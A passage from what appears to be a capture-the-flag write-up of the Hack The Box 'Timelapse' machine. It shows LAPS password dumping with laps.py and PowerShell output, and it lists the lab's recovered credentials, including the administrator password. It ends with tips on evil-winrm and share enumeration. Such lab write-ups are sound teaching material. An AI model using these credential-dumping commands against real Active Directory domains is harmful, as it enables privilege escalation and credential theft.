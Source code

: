 ```powershell
Readable   : 1
Password   : d2s(09pQNZ.}Q.db5,m-drS2
Expiration : 2/11/2023 6:35:44 PM
```
### Post Exploitation
Another technique to retrieve LAPS[^readlapspassword] passwords is by using the [Laps.py](https://github.com/n00py/LAPSDumper):
```bash
python3 laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
LAPS Dumper - Running at 06-02-2023 04:44:09
DC01 d2s(09pQNZ.}Q.db5,m-drS2
```

### Credentials
```bash
# winrm_backup.zip password
supremelegacy
# legacyy_dev_auth.pfx
thuglegacy
# Credentials for user svc_deploy
svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
# Credentials for administrator
administrator:d2s(09pQNZ.}Q.db5,m-drS2
```
### Notes

- Evil-winrm can be used to authenticate with certificates, also is worth noting that if we want to authenticate via SSL we need to add the (-S) flag
- Always lookup for hardcoded passwords on files specially on powershell history.
- To check if we  have read access to an SMB share we need to use the `--shares` with crackmapexec or to use SMBMAP not only with SMBClient to be sure.

### References

- [How to Extract Certificate and Private Key from PFX](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/)
- [Dumping LAPS](https://www.hackingarticles.in/credential-dumpinglaps/) 
- [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1) 

[^Get-LAPSPasswords]: Powershell Utility to read LAPS passwords
[^readlapspassword]: Python utility to read LAPS passwords
[^pfx-certificate]: PFX Certificate login
[^ldap-enumeration]: LDAP Enumeration
[^powershell-history]: Powershell History